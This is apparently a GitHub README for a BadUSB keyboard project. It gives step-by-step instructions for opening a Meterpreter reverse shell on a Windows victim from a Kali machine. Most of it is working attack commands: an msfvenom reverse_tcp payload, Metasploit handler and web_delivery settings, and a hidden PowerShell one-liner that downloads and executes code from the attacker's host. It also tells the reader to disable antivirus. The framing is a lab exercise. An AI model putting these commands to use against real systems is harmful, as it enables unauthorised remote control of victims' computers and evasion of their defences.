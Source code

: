 # Keyboard_BadUSB
(need a better name for the project)


# Opening a revershell from windows to kali

Confingure both machines to be in the same internal network and able to ping each other.

Generate the payload using msfvenon.  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Disbale antirvirus and transfer the payload to the victim machine.

Set up a reverse shell handler in kali.  
```
> use exploit/multi/handler  
> set payload windows/meterpreter/reverse_tcp
> set lhost=<IP>
> set lport=<PORT>
> run
```

Run the exe in victim machine and wait for connection.


# Exploiting via web delivery

In msfconsole,
```
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
```

set lhost and lport

in windows cmd with antivirus disabled,
```
powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://<ip>:<port>/<uri>');
```
